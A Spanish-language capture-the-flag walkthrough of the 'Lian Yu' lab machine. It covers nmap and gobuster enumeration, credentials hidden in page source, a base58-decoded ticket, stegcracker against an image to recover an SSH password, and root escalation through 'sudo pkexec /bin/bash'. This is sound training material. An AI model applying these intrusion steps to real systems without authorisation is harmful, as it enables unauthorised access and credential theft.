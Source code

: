 # Lian Yu
## Initial Scan
```
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43554/udp6  status
|   100024  1          47489/udp   status
|   100024  1          47589/tcp   status
|_  100024  1          48692/tcp6  status
47589/tcp open  status  1 (RPC #100024)
```
## Enum 
### HTTP
#### Gobusting 1 
```
/island (Status: 301)
```
#### Island
```html
<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>
```
Parecen unas creds Lian_Yu:vigilante

#### Guessing Time
Hace falta usar una wordlist con numeros de 0 a 9999 para encontrar el siguiente subdirectorio
```
/2100 (Status: 301)
```
#### 2100
Miramos el fuente y:
```
<!-- you can avail your .ticket here but how?   -->
```
Vamos a hacer gobusting con esa extension
```
:~$ gobuster -u http://10.10.204.63/island/2100 -w /usr/share/dirb/wordlists/directory-list-lowercase-2.3-big.txt -t 100 -x .ticket
>/green_arrow.ticket (Status: 200)
```
#### TIcket
```
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
```
Si le aplicaamos base58 decode tenemos el siguiente string: !#th3h00d

### FTP

Con el ticket y la code word de la island nos podemos logear en el ftp, no tenemos permiso de escritura en la carpeta en la que estamos "/home/vigilante/ y las 3 fotos y veamos si se les ha aplicado algún tipo de esteganografía 

#### Users

Ya que estamos en /home/vigilante veamos si tenemos otro usuario con /home , y asi es para slade

### Stego

Mirando los 3 archivos vemos que en aa.jpg están las strings caracteristicas de steghide
```
stegcracker aa.jpg rockyou.txt
```
Con esto extraeremos un zip, si lo desomprimimos tenemos un archivo llamado shado y otro llamado pass

De ahi sacamos la password para slade en SSH

## Privesc
```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```
Ejecutamos lo siguiente:
```
sudo pkexec /bin/bash
```
Y ya tenemos shell como root

